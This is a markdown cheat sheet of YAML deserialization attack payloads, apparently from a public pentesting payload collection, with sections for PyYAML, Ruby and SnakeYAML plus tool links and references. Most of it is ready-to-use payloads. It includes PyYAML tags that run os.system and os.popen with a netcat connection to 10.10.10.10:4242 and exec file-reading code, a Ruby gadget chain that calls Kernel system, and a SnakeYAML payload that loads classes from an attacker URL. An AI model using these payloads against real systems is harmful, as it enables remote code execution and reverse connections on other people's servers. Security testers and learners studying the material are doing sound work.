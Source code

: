 # YAML Deserialization

## Summary

* [Tools](#tools)
* [Exploit](#exploit)
    * [PyYAML](#pyyaml)
    * [ruamel.yaml](#ruamelyaml)
    * [Ruby](#ruby)
    * [SnakeYAML](#snakeyaml)
* [References](#references)

## Tools

* [j0lt-github/python-deserialization-attack-payload-generator](https://github.com/j0lt-github/python-deserialization-attack-payload-generator)
* [artsploit/yaml-payload](https://github.com/artsploit/yaml-payload) - A tiny project for generating SnakeYAML deserialization payloads
* [mbechler/marshalsec](https://github.com/mbechler/marshalsec)

## Exploit

### PyYAML

```yaml
!!python/object/apply:time.sleep [10]
!!python/object/apply:builtins.range [1, 10, 1]
!!python/object/apply:os.system ["nc 10.10.10.10 4242"]
!!python/object/apply:os.popen ["nc 10.10.10.10 4242"]
!!python/object/new:subprocess [["ls","-ail"]]
!!python/object/new:subprocess.check_output [["ls","-ail"]]
```

```yaml
!!python/object/apply:subprocess.Popen
- ls
```

```yaml
!!python/object/new:str
state: !!python/tuple
- 'print(getattr(open("flag\x2etxt"), "read")())'
- !!python/object/new:Warning
  state:
    update: !!python/name:exec
```

## Ruamel.yaml

## Ruby

```ruby
 ---
 - !ruby/object:Gem::Installer
     i: x
 - !ruby/object:Gem::SpecFetcher
     i: y
 - !ruby/object:Gem::Requirement
   requirements:
     !ruby/object:Gem::Package::TarReader
     io: &1 !ruby/object:Net::BufferedIO
       io: &1 !ruby/object:Gem::Package::TarReader::Entry
          read: 0
          header: "abc"
       debug_output: &1 !ruby/object:Net::WriteAdapter
          socket: &1 !ruby/object:Gem::RequestSet
              sets: !ruby/object:Net::WriteAdapter
                  socket: !ruby/module 'Kernel'
                  method_id: :system
              git_set: sleep 600
          method_id: :resolve 
```

## SnakeYAML

```yaml
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://attacker-ip/"]
  ]]
]
```


## References

* [Python Yaml Deserialization - hacktricks.xyz][https://book.hacktricks.xyz/pentesting-web/deserialization/python-yaml-deserialization]
* [YAML Deserialization Attack in Python - Manmeet Singh & Ashish Kukret - November 13][https://www.exploit-db.com/docs/english/47655-yaml-deserialization-attack-in-python.pdf]
* [PyYAML Documentation](https://pyyaml.org/wiki/PyYAMLDocumentation)
* [Blind Remote Code Execution through YAML Deserialization - 09 JUNE 2021](https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/)
* [[CVE-2019-20477]- 0Day YAML Deserialization Attack on PyYAML version <= 5.1.2 - @_j0lt](https://thej0lt.com/2020/06/21/cve-2019-20477-0day-yaml-deserialization-attack-on-pyyaml-version/)